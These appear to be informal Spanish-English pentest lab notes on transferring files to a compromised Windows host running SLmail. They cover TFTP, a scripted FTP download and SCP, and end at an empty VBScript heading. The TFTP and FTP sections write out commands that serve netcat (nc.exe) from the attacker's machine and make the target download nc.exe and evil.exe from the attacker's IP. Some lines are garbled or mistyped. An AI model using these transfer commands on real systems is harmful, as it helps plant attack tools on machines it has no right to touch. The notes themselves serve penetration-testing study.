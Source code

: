&nbsp;
# **2 TFTP**
---
Not the ideal file protocol, pero puede estar y lo podemos llegar a usar

### **hacker**
```
rootkali: mkdir /tftp
root@kali: atftpd --daemon --port 69 \tftp\
root@kali: cp nc.exe \tftp
```
### | **target**
```
C:ProgramFiles\SLmail\System> tftp -i 192.168.30.5 GET nc.exe
```

&nbsp;
# **3 FTP**
---
es interactivo el de windows, asi que no vamos a poder, pero el server ftp de windwos nos deja usar scripts :D

### | **hacker**
```
root@kali: apt-get install pure-ftpd
root@kali: cat setup-ftp
root@kali: ./setup-ftp
```

   comands a poner en el archivo:
```
root@kali: cat ftp.commands
echo open 192.168.58.5 21 > ftp.txt
echo offsec>> ftp.txt
echo lab>> ftp.txt
echo bin>> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

### | **target**
```
C:\programs files\slmail\System>  cop pyasteamos lo que esta aca arriba y deberia ejecutar todo
```
&nbsp;
# **4 SCP**
---
```
scp <fileToUpload> user@remote:/path
```
&nbsp;
# **5 VBScript**
---
